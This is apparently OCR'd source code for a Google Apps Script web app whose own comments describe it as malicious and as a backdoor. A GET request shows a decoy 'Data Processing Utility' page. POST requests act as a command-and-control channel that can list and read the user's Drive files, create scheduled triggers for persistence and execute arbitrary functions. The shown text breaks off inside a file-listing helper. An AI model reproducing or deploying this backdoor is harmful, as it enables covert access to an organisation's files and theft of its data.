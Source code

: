 ```javascript
// Function to set up a malicious web app
function setupWebApp() {
  // This function would be manually run once to deploy the script as a web app
  // The attacker would need to authorize it with appropriate permissions
  console.log("Deploy this script as a web app with the following settings:");
  console.log("- Execute as: User accessing the web app");
  console.log("- Who has access: Anyone within [organization]");
}

// This function handles GET requests
function doGet(e) {
  // Provide an innocuous interface
  return HtmlService.createHtmlOutput('<h1>Data Processing Utility</h1><p>System is operational.</p>');
}

// This function handles POST requests - the actual backdoor
function doPost(e) {
  const request = JSON.parse(e.postData.contents);
  let response = { status: 'error', data: null };
  
  // Command and control functionality
  switch (request.command) {
    case 'list_files':
      response.data = listFiles(request.query || '');
      response.status = 'success';
      break;
    case 'read_file':
      response.data = readFile(request.fileId);
      response.status = 'success';
      break;
    case 'create_trigger':
      response.data = createCustomTrigger(request.functionName, request.frequency);
      response.status = 'success';
      break;
    case 'execute_function':
      response.data = executeFunction(request.functionName, request.parameters);
      response.status = 'success';
      break;
    default:
      response.data = 'Unknown command';
  }
  
  return ContentService.createTextOutput(JSON.stringify(response))
    .setMimeType(ContentService.MimeType.JSON);
}

// Helper functions for the backdoor
function listFiles(query) {
  // List files based on a search query
  const files = DriveApp.searchFiles(query || 'trashed=false');
  let fileList = [];
  
  while (files.hasNext()) {
    const file = files.next();
    fileList.push({
      id: file.getId(),
      name: file.getName(),
      type: file.getMimeType(),
      size: file.getSize(),
      url: file.getUrl(),
      dateCreated: file.getDateCreated(),
      lastUpdated: file.getLastUpdated()
```